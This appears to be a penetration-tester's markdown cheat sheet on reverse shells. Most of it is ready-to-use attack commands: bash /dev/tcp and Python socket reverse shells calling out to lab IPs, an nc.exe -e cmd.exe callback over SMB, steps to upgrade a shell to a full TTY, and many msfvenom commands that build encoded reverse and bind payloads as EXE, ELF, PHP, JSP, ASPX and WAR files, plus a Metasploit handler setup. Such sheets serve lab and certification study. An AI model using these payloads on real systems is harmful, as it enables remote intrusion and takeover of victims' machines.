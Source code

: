 # Shells

## Reverse shells
**Links**

- https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/
  https://github.com/Tib3rius/rsg/blob/master/shells.txt
  http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
  https://github.com/swisskyrepo/PayloadsAllTheThings
  https://cyb3rdan.com/2019/07/01/oscp/
  https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

## Shells
`/bin/bash -i >& /dev/tcp/10.10.14.20/4444 0>&1`
`bash -i >& /dev/tcp/192.168.32.31/4444 0>&1`
`bash -c 'bash -i >& /dev/tcp/10.10.14.20/4444 0>&1'`

`bash -c help`' for more information about shell builtin commands.
`/bin/sh -i`
`/bin/bash -i`
`echo os.system('/bin/bash')`

```bash
python -c 'import
socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.11.0.126",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

`-c` cmd : program passed in as string (terminates option list)

## Getting a shell in limited interpreters:
system("start cmd.exe /k $cmd")
Second shell
After getting a shell, get a second shell with "start" in case the first one bugs up/hangs/crashes (assuming running SMB server): 
victim > start \\10.10.12.84\share\nc.exe -nv -e cmd.exe 10.10.12.84 80



<img src="full shell.png" style="zoom:48%;" />



## Upgrade to full Shell

``` python
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
$ stty raw -echo
$ fg and then enter, wait a sec, then reset enter
export TERM=linux
```


## Msfvenom

https://www.offensive-security.com/metasploit-unleashed/Msfvenom/
https://netsec.ws/?p=331

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.56 LPORT=8888 -f raw > shell.jsp
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.11.0.126 LPORT=53 -f elf -o shell.elf
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.126 LPORT=4444 -f exe -o shell_reverse.exe
msfvenom -a x86 --platform Windows -p windows/shell/bind_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 -f python

msfvenom -p php/reverse_php LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
msfvenom -p php/meterpreter/reverse_tcp LHOST=<attacker_ip> -o meterpreter.php
msfvenom -p generic/shell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f php -o shell.php
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attackerIP LPORT=attackerPort -f aspx > shell.aspx
msfvenom -p windows/meterpreter/reverse_tcp LHOST=attackerIP LPORT=attackerPort -f asp > shell.asp
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.0.126 LPORT=4444 -f war > shell.war
```



`-p` = payload

`-f` = output format

`-o` = out

`-a` = architecture

`-e` = encoder

`-i` = iterations of encoder

`-b` = bad characters to avoid \x00\xff

`--platform` = platform for the payload



## Multi/Handler

```shell
set payload ...
set LPORT
set LHOST
exploit
```

**Create small shellcode**
`msfvenom -p windows/shell_reverse_tcp -a x86 -f python –platform windows LHOST=<ip> LPORT=443 -b “\x00” EXITFUNC=thread –smallest -e x86/fnstenv_mov`